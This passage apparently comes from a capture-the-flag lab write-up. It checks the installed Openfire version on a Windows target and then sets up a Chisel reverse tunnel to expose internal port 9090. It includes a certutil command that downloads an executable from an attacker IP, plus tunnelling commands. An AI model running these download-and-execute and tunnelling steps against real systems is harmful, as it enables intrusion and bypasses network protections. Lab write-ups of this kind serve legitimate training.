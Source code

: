 The version of Openfire installed is checked. It is 4.7.5.

```shell
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

DisplayName                                                   
-----------                                                   
Openfire 4.7.5                                                
                                                              
Mozilla Firefox (x64 en-US)                                   
Mozilla Maintenance Service                                   
                                                              
Microsoft Visual C++ 2022 X64 Additional Runtime - 14.32.31326
VMware Tools                                                  
Java 8 Update 391 (64-bit)                                    
Microsoft Visual C++ 2022 X64 Minimum Runtime - 14.32.31326
```

Through portforwaring with Chisel you expose port 9090 to the outside world.

Attacker side:

```shell
$ ./chisel_1.9.1_linux_amd64 server -p 9000 --reverse                                              
2024/02/29 11:39:22 server: Reverse tunnelling enabled
2024/02/29 11:39:22 server: Fingerprint JxjWQpYWKRMIwb9GvBcCcNepiYmzRVpFEKLV+h+mCvw=
2024/02/29 11:39:22 server: Listening on http://0.0.0.0:9000
```

Victim side:

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.10/chisel_1.9.1_windows_amd64.exe chisel.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> .\chisel.exe client 10.10.14.10:9000 R:9090:127.0.0.1:9090
```

![](img/jab31.png)
